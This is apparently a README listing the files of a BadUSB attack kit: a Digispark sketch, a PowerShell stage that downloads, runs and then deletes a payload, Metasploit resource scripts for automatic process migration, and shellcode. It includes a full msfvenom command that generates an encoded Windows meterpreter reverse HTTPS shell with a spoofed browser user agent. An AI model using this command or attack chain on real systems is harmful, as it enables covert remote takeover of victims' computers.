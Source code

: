 # Folder with all the final payload/scripts

Items:
1. ```digispark.cpp``` digispark code for the attack, this version does not get admin privileges.
2. ```1.ps1``` first stage of the attack, download the payload and run it, deletes the payload after process migration is complete.
3. ```0.exe``` the payload.
4. ```kid_msf_auto.rc``` script to fill in all msfconsole parameters, also calls ```auto_migrate.rc``` to migrate process after session opens. run it as ```msfconsole -r /home/kali/kid_msf_auto.rc``` in terminal.
5. ```auto_migrate.rc``` to be ran after a session open, migrate process to powershell.exe. Payload will be deleted after migration.
6. ```payload_source.cpp``` source code of the payload.
7. ```shell.c``` raw shellcode generated by msfvenom, generated using ```msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.10 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -e x86/shikata_ga_nai -i 8 -f c > shell.c```
